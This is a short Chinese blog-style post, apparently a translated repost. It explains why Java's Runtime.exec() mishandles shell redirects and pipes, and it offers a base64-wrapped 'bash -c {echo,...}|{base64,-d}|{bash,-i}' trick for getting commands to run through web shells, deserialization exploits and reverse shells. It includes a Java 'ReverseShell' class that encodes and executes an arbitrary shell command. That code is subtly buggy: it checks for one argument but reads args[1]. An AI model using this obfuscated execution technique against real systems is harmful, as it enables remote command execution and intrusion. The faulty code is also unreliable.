

本文转载自https://r0yanx.com/tools/java_exec_encode/，是这篇文章的翻译版本。

## Runtime

在Java中尝试使用`Runtime.getRuntime().exec()`执行 Web Shell、反序列化漏洞、反弹shell或通过其他载体时可能会发生这种情况。

这是因为重定向和管道字符的使用方式在正在启动的进程上下文中没有意义。例如，在linux命令下执行：`ls > dir_listing`这会把当前目录的列表输出到名为`dir_listing`的文件中。

但在 `exec()` 方法的上下文中，该命令会被解释为尝试访问 `>` 和 `dir_listing` 目录。

还有时，带有空格的参数会被 `StringTokenizer` 类错误拆分。例如，`ls "My Directory"` 会被错误解析为 `ls '"My' 'Directory"'`。

## 使用base64

在这篇文章中提到了我们应该使用base64方法，使得命令执行可以达到我们想要的效果，同时这个老哥给出了一个转为base64命令行的方法，如下：



格式的前边和后边都是固定的，中间穿插了一节base64编码后的命令

```
bash -c {echo,[..bash64..]}|{base64,-d}|{bash,-i}
```

## 反弹shell

这样我们就能在Runtime.getRuntime中执行类似反弹shell一样的命令了。


代码我也贴出来了，如下：

```java
import sun.misc.BASE64Encoder;

public class ReverseShell {
    public static void main(String[] args) throws Exception {
        if (args.length != 1) {
            System.out.println("Error Shell Args");
        }
        String shell = args[1];
        BASE64Encoder base64Encoder = new BASE64Encoder();
        String base64 = base64Encoder.encode(shell.getBytes());
        Runtime.getRuntime().exec("bash -c {echo," + base64 + "}|{base64,-d}|{bash,-i}");
    }
}
```


